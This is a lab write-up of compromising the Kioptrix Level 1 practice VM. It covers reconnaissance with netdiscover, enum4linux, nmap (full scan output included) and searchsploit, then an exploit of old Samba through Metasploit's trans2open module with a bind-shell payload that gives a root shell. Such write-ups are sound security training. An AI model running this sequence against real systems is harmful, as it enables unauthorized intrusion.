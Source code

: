 # Kioptrix-Level-1

Kioptrix - 1
------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Name – Aritrya Paul 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------
My Setup : 
1) A VMware virtual machine running kali linux
2) Another VM running Kioptrix
3) Both has NAT type Network Adapter

------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**STEP 1** - First to check the hosts running on our IP address with the shell command : 
            
            netdiscover

![netdiscover](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/34acb7c8-6efd-44bd-9561-acd384fb4b99)

So, the IP of the host is **192.168.13.131** . 
To check it we can type the command : **enum4linux 192.168.13.131** which shows the information about the target.

![enum4linux](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/06d7cd18-05bd-40cc-ac60-3c3ee9f1b616)

------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**STEP 2** - I have used Nmap to run a fast/aggression scan over the network. To do so I have used the command : 

        nmap -sS -A 192.168.13.131

![nmap](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/b0a57d33-3e35-41d7-aa30-7fa7605fd588)

*-sS is for TCP SYN scan <br>
*-A Decets OS and Services

I have done a bit more recon and enumeration this time. So, I have done a more thorough scan. So, I have used the command : 

      nmap -p- -T4 -A -O -v 192.168.13.131

**The output of the above scan** : 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 14:07 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating ARP Ping Scan at 14:07
Scanning 192.168.13.131 [1 port]
Completed ARP Ping Scan at 14:07, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:07
Completed Parallel DNS resolution of 1 host. at 14:07, 0.02s elapsed
Initiating SYN Stealth Scan at 14:07
Scanning 192.168.13.131 [65535 ports]
Discovered open port 139/tcp on 192.168.13.131
Discovered open port 80/tcp on 192.168.13.131
Discovered open port 22/tcp on 192.168.13.131
Discovered open port 443/tcp on 192.168.13.131
Discovered open port 111/tcp on 192.168.13.131
Discovered open port 1024/tcp on 192.168.13.131
Completed SYN Stealth Scan at 14:07, 7.64s elapsed (65535 total ports)
Initiating Service scan at 14:07
Scanning 6 services on 192.168.13.131
Completed Service scan at 14:07, 11.03s elapsed (6 services on 1 host)
Initiating OS detection (try #1) against 192.168.13.131
NSE: Script scanning 192.168.13.131.
Initiating NSE at 14:07
Completed NSE at 14:08, 10.51s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.10s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Nmap scan report for 192.168.13.131
Host is up (0.00097s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-09-28T08:39:54+00:00; +1m52s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:2E:A7:98 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.036 days (since Thu Sep 28 13:15:35 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 1m51s

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.13.131

NSE: Script Post-scanning.
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.99 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)



Here, To start with HTTP/S. We have both the ports open. **Port 80** is for **http** and **port 443** for **https**. Other findings : 
1] Apache/1.3.20 (Unix)
2] mod_ssl/2.8.4
3] OpenSSL/0.9.6b

I have also got the **Samba port:139**.

I have also got **port 22: the SSH port**. Other findings : 
1] OpenSSH 2.9p2 (protocol 1.99)
2] Sshv1: Server support SSHv1

From the above output we can see that the process is running in netbios-ssn Samba but no exact version is described.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**STEP 3** - I have used searchsploit on openssh 2.9 and Apache 1.2.30 by the command : 

           searchsploit openssh 2.9

![searchsploit openssh](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/c2f51931-ab58-4c9f-839e-5e1db66208d1)

But there was many exploits but not in any specific version which is openssh 2.9 . So, this will not be the case.

Again, 

           Searchsploit Apache 1.3.20 

![searchsploit Apache](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/59640a9f-e530-476d-8fcf-cc35e311afd0)

Here, I found 2 exploits of version 1.3.20 but both are for windows. So, this will also not be the case because our target machine platform is linux based.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------

STEP 4 - By this I came to understand that our next exploitation will be on Samba. For this I have used Metasploit Framework. To access Metasploit in Kali Linux type :

             msfconsole

------------------------------------------------------------------------------------------------------------------------------------------------------------------------
             
STEP 5 - Now, to see the available modules in metasploit of Samba by the command : 

             search samba 

![search samba](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/ede8a97d-2fec-4a79-882e-e2ee0e51341c)

I have used **exploit/linux/samba/trans2open** module whose rank is excellent. By typing **info** I get to know that the module requires only **RHOSTS** and **RPORT**.

I set the RHOSTS to 192.168.13.131 and the RPORT to 139 which is for the target TCP port and finally to exploit.

Next, I set the PAYLOAD to handle the session by the command : 

     set payload linux/x86/shell_bind_tcp 

By this I got access to the command shell of the target machine.

![exploit](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/2e7d8d49-fb7c-45db-bbeb-c79201a37f76)

Here, I typed **whoami** to know the root and **/bin/bash -i** to get the terminal of the kioptrix.










                                   








